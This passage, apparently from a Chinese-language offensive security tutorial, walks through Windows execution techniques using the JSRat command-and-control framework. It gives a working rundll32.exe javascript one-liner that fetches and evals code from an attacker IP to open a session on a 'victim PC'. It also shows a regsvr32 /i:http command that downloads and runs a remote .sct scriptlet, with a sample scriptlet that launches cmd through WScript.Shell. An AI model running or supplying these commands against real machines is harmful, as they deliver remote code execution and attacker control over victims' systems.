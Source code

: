 其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git

步骤一：开始运行JSRat，监听本地8888端口。

![](./image/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![](.\image\20200413-12-2.png)

复制代码如下：

~~~
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
~~~

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![](./image/20200413-12-3.png)



**13、regsvr32 **

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

~~~
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
~~~

可以通过自己构造.sct文件，去下载执行我们的程序

~~~
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
~~~

执行命令，成功弹计算器：

![](./image/20200413-13.png)

